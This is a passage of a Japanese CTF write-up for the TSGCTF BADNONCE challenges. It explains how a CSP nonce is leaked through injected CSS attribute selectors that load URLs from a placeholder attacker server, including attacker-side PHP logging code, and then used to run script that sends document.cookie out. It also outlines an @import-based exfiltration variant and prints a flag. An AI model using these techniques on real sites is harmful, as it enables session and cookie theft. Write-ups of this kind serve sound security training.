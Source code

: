 ```html
```

`log.php`

```php
<?php
if (!in_array($_SERVER['REMOTE_ADDR'], ['(問題サーバ)'])) {
  die('sorry');
}
if (isset($_GET['nonce'])) {
  file_put_contents('nonce.txt', $_GET['nonce']);
}
echo file_get_contents('nonce.txt');
```

このスクリプトは以下のような手順で動きます。

1. `script[nonce^="(判明している nonce の一部)(試す文字)"] { background: url('http://(攻撃者のサーバ)/?log.php=(判明している nonce の一部)(試す文字)'); }` を `0123456789abcdef` の 16 文字分生成
2. 1 で生成した CSS のルールを `<style>` `</style>` で囲み、`http://(問題サーバ)/?q=<style>(CSS のルール)</style>` を `iframe` でクローラに開かせる
3. 1 ~ 2 を 32 回繰り返し、nonce を特定
4. `http://(問題サーバ)/?q=<script nonce=(特定した nonce)>(JavaScript コード)</script>` で好きなコードを実行

`document.cookie` を送信させるコードをクローラに実行させるように `code` を設定し、URL を巡回させるとフラグが得られました。

```
TSGCTF{dEv1L_15_1n_7he_DE741l2}
```

### BADNONCE Part 2 (250)
> Reining in the Web with ...?
> Please send the flag2.

与えられた URL は BADNONCE Part 1 と同じものですが、今回は `flag2` を手に入れる必要があるようです。与えられたソースコードで `flag2` を参照している箇所を確認します。

```php
$_SESSION['count'] = isset($_SESSION['count']) ? $_SESSION['count'] + 1 : 0;
if ($_SESSION['count'] > 3){
    setcookie('flag2', null, -1, '/');
}
```

規定された回数以上アクセスすると`flag2` という Cookie が削除されてしまいます。先程の解法では nonce を特定する際に 1 文字につき 1 回のアクセスをしているため、規定回数を超え、`flag2` が削除されてしまっていたようです。

1 度のアクセスで nonce を特定できないかググっていると、[Better Exfiltration via HTML Injection – d0nut – Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b) という記事が見つかりました。この記事では、`@import` を使って以下のような流れで属性値を読み取っています。

1. 問題サーバ上で `<style>@import url(http://(攻撃者のサーバ)/staging);</style>` を挿入する
2. `/staging` からさらに `/polling?len=0` `/polling?len=1` … `/polling?len=31` を `@import` で読み込ませるが、`/polling?len=0` 以外はレスポンスを保留させる
3. `/polling?len=0` で属性セレクタを使って特定の属性値の 1 文字目を読み取る
4. レスポンスを保留していた `/polling?len=1` について、得られた 1 文字目を使って 2 文字目を読み取る CSS ルールを返す
4. 3 文字目 ~ 32 文字目についても同様にして読み取る
